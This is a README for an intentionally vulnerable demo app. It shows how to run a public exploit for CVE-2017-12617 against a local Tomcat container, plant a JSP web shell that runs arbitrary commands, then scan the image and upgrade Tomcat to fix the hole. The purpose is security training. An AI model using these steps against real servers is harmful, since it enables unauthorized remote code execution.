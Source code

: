 # Docker base image vulnerability exploit

## Prerequisites
* Docker Desktop (Mac / Windows) or Docker-CE (Linux) installed
* docker-compose installed  
* java-goof app running in container as per top level [README](/README.md) instructions

## Overview
The default base image `tomcat:8.5.21` is vulnerable to RCE [CVE-2017-12617](https://snyk.io/vuln/SNYK-JAVA-ORGAPACHETOMCAT-451514)
and an demonstration exploit, taken from [Exploit-DB](https://www.exploit-db.com/exploits/42966) is available in the exploits directory.

## Setting up the exploit
With the app running locally on `0.0.0.0:8080` set up as follows:

```bash
cd exploits
source tomcat-rce.sh   # Note: this will attempt to automatically grab your host IP and will echo it out, make sure it's correct for your OS
```

## Checking if app server is vulnerable
Now you can run the `check` alias to see if the tomcat server is vulnerable.
If it is you should see something similar to the following:

```ascii
$ check
   _______      ________    ___   ___  __ ______     __ ___   __ __ ______ 
  / ____\ \    / /  ____|  |__ \ / _ \/_ |____  |   /_ |__ \ / //_ |____  |
 | |     \ \  / /| |__ ______ ) | | | || |   / /_____| |  ) / /_ | |   / / 
 | |      \ \/ / |  __|______/ /| | | || |  / /______| | / / '_ \| |  / /  
 | |____   \  /  | |____    / /_| |_| || | / /       | |/ /| (_) | | / /   
  \_____|   \/   |______|  |____|\___/ |_|/_/        |_|____\___/|_|/_/    

[@intx0x80]

Poc Filename  Poc.jsp
File Created ..
http://192.168.1.2:8080 it's Vulnerable to CVE-2017-12617
http://192.168.1.2:8080/Poc.jsp
```

If you point a browser at http://localhost:8080/Poc.jsp you should get a test page with a bunch of "A" char's - that shows the exploit worked.

## Inject the exploit and run commands in the container from browser 
Next, run the `pwn` alias and just hit `ENTER` at the shell prompt that comes up. (Ignore the error afterward)

```ascii
$ pwn
   _______      ________    ___   ___  __ ______     __ ___   __ __ ______ 
  / ____\ \    / /  ____|  |__ \ / _ \/_ |____  |   /_ |__ \ / //_ |____  |
 | |     \ \  / /| |__ ______ ) | | | || |   / /_____| |  ) / /_ | |   / / 
 | |      \ \/ / |  __|______/ /| | | || |  / /______| | / / '_ \| |  / /  
 | |____   \  /  | |____    / /_| |_| || | / /       | |/ /| (_) | | / /   
  \_____|   \/   |______|  |____|\___/ |_|/_/        |_|____\___/|_|/_/    

[@intx0x80]

Uploading Webshell .....
$ 
Traceback (most recent call last):
  File "/exploit.py", line 188, in <module>
    shell(str(url),pwn)
  File "/exploit.py", line 98, in shell
    cmd=input("$ ")
  File "<string>", line 0
    
    ^
SyntaxError: unexpected EOF while parsing
```

Now open a browser to http://localhost:8080/pwn.jsp

You should see a blank page with a form containing single field and a `Run` button.  Type any Linux command you want and submit the form.
The results will populate the page.

Example 1: `whoami`
![whoami command](whoami-cmd.png)

Example 2: `dpkg -l`
![debian package listing](dpkg-cmd.png)

## Running a container scan
From the repo top-level directory, find the image tag for the goof app.  If you built using `docker-compose up --build` then the image tag should be `java-goof_javagoof:latest`
Run a scan with `--app-vulns` and dump the output to a file because it's going to be huge!

```bash
$ snyk container test java-goof_javagoof:latest --file=Dockerfile --app-vulns > snyk.out
\ Analyzing container dependencies for java-goof_javagoof:latest/Dockerfile
...
```

When complete, open the snyk.out file and search for `SNYK-JAVA-ORGAPACHETOMCAT-451514`
```ascii
  Upgrade org.apache.tomcat:tomcat-util@8.5.21 to org.apache.tomcat:tomcat-util@8.5.51 to fix
  ✗ Arbitrary File Upload [High Severity][https://snyk.io/vuln/SNYK-JAVA-ORGAPACHETOMCAT-551994] in org.apache.tomcat:tomcat-util@8.5.21
    introduced by org.apache.tomcat:tomcat-util@8.5.21
  ✗ Denial of Service (DoS) [High Severity][https://snyk.io/vuln/SNYK-JAVA-ORGAPACHETOMCAT-451507] in org.apache.tomcat:tomcat-util@8.5.21
    introduced by org.apache.tomcat:tomcat-util@8.5.21
  ✗ Arbitrary Code Execution [High Severity][https://snyk.io/vuln/SNYK-JAVA-ORGAPACHETOMCAT-451514] in org.apache.tomcat:tomcat-util@8.5.21
    introduced by org.apache.tomcat:tomcat-util@8.5.21
```

Next, search the file for `Recommendations`

```ascii
Tested 289 dependencies for known issues, found 594 issues.

Base Image     Vulnerabilities  Severity
tomcat:8.5.21  594              234 high, 173 medium, 187 low

Recommendations for base image upgrade:

Minor upgrades
Base Image     Vulnerabilities  Severity
tomcat:8.5.64  111              22 high, 12 medium, 77 low

Major upgrades
Base Image     Vulnerabilities  Severity
tomcat:10.0.0  130              36 high, 17 medium, 77 low

Alternative image types
Base Image                             Vulnerabilities  Severity
tomcat:8.5-jdk15-openjdk-oraclelinux7  0                0 high, 0 medium, 0 low
tomcat:10.0-jdk16-corretto             0                0 high, 0 medium, 0 low
tomcat:8.5-jdk8-corretto               0                0 high, 0 medium, 0 low
tomcat:10-jdk15-corretto               0                0 high, 0 medium, 0 low
```

Kill the running docker-comose process to shut down the app.

Edit the Dockerfile to use the "Major upgrade" recommendation, `FROM tomcat:8.5.64` at the top of the final stage.
```dockerfile
#FROM tomcat:8.5.21
FROM tomcat:8.5.64
RUN mkdir /tmp/extracted_files
COPY --chown=tomcat:tomcat web.xml /usr/local/tomcat/conf/web.xml
COPY --from=build /usr/src/goof/todolist-web-struts/target/todolist.war /usr/local/tomcat/webapps/todolist.war
```

Re-run `docker-compose up --build`

Re-run `check` alias and you should see that the app server is no longer vulnerable.
```ascii
$ check
   _______      ________    ___   ___  __ ______     __ ___   __ __ ______ 
  / ____\ \    / /  ____|  |__ \ / _ \/_ |____  |   /_ |__ \ / //_ |____  |
 | |     \ \  / /| |__ ______ ) | | | || |   / /_____| |  ) / /_ | |   / / 
 | |      \ \/ / |  __|______/ /| | | || |  / /______| | / / '_ \| |  / /  
 | |____   \  /  | |____    / /_| |_| || | / /       | |/ /| (_) | | / /   
  \_____|   \/   |______|  |____|\___/ |_|/_/        |_|____\___/|_|/_/    

[@intx0x80]

Poc Filename  Poc.jsp
Not Vulnerable to CVE-2017-12617 
```

You can alos show that http://localhost:8080/Poc.jsp did not inject the "AAAA" page
